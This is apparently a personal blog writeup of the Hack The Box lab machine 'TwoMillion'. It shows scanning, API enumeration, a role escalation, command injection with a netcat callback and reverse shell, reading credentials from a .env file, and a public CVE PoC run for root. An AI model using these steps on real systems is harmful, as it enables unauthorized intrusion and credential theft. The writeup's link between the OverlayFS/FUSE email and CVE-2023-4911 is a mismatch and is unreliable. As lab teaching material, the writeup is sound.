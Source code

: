 ```yaml
---
title: HTB TwoMillion - Writeup
date: 2025-07-15 13:53:00 +0330
categories: [Writeup]
tags: [api,cve]
description: My writeup of TwoMillion from Hack The Box 

---
```


![infocard](assets/img/twomillion_infocard.png)

## - **Introduction**
The initial process to get a foothold was to first find an invite code so that we can sign up, then we used an API endpoint to change our role to Administrator. After that, we find out that there is a Command Injection vulnerability in one of the admin endpoints and so we got a reverse shell from the box.

## - **Recon & Enum**
##### Port Scanning
To start off our recon we will begin with an Nmap scan of the machine:
```shell
$ sudo nmap -sC -sV -oN 2mil_nmap --min-rate=1000 10.10.11.221
```
```
Nmap scan report for 10.10.11.221
Host is up (0.52s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

>I always perform a full scan with then `-p-` flag to make sure no port is left behind but I am not including that here as we only have two tcp ports open.
{: .prompt-info }

```shell
$ sudo echo "10.10.11.221\t2million.htb" >> /etc/hosts
```

>We need to add the 2million.htb hostname to `/etc/hosts`.
{: .prompt-tip }
---
##### Creating an Account and finding the vulnerability
After browsing the site for a bit, I found two interesting pages, `/login` and `/invite` but to actually sign up we needed an invite code.
So after analyzing the requests in burp, I noticed the api nodes.

![login](assets/img/twomillion_burp_login.png)
![verify](assets/img/twomillion_burp_verify.png)
so I tried brute forcing api endpoints using gobuster and I found `/api/v1/invite/generate`.
```shell
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
```
```
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://2million.htb/api/v1/invite
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   301
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/verify               (Status: 405) [Size: 0]
/generate             (Status: 405) [Size: 0]
Progress: 18806 / 1273833 (1.48%)
```
So I used burp to send a POST request and got a response with an invite code (base64 encoded).

![invitecode](assets/img/twomillion_burp_invite.png)

After creating an account and logging in, only a few pages were accessible. I got a little stuck at first but when I tried accessing `/api` again, it authorized and I got a view of every API endpoint.

![api](assets/img/twomillion_api_v1.png)

Here `/admin/setting/update` caught my eye , I started playing around with it in burp and changed my role to admin.


![update](assets/img/twomillion_burp_update.png)

## - **Foothold**
Now this is were I got stuck for quite some time, but eventually I got it.  
The `/api/v1/admin/vpn/generate` and `/api/v1/user/vpn/generate` endpoints interact with the OS, so I tried injecting commands.
Though I have to say at first I didn't see it because the responses were empty. To make sure, I set up a `netcat` listener and made a request back to myself.

![update](assets/img/twomillion_cmd.png)

```shell
$ nc -nvlp 9070         
```
```
listening on [any] 9070 ...
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 52748
GET / HTTP/1.1
Host: 10.10.16.42:9070
User-Agent: curl/7.81.0
Accept: */*
```

And here comes the reverse shell...
```
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 42046
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2million:~/html$ id    
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@2million:~/html$
```

## - **User**
Getting the user was just waaay too easy. Looking at the files in `html` folder, there is a `.env` file. What was inside you may ask, DATABASE CREDENTIALS!
```
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=*****************
```

```
www-data@2million:~/html$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

And tada!

```
admin@2million:~$ cat user.txt
59f625d****************eebc95d5e
```

## - **Root**
Using linpeas and looking around myself I found an email which directly pointed to the vulnerability we'll use to escalate privileges.
```
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Googled a bit and found out the email is referring to `CVE-2023-4911` and I used this [POC](https://github.com/NishanthAnand21/CVE-2023-4911-PoC) to get root.
>You can use `python3 -m http.server` to send files to the victim machine.
{: .prompt-tip }

```
admin@2million:/tmp$ python3 genlib.py 
admin@2million:/tmp$ chmod +x titap
admin@2million:/tmp$ ./titap
# whoami
root
# id
uid=0(root) gid=1000(admin) groups=1000(admin)
```

And the flag

```
# cd /root
# cat root.txt 
5b5c6****************90556050597
```

Done  
Thanks for reading!